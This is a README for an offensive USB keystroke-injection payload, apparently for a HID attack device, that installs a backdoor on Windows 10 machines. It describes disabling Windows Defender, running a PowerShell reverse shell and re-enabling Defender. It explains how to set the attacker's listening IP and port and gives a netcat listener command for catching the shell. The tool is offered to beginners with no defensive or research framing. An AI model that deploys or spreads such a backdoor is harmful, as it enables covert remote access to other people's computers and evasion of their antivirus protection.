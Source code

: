 # Simple Backdoor for beginners
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script
  
## Description
* opens a backdoor that you can access with Netcat
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender

## Configuration
* You just need to change 192.168.1.1 and 22
* lhost = your IP adress
* lport = the port you want to use for the Backdoor. I recommend ssh (22).
* example: readonly lhost="192.168.4.20"
         * readonly lport="80"

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
* rhost = IP adress from the target
* rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Triple       | activate defender Stage                |
| Green               | Finished                               |
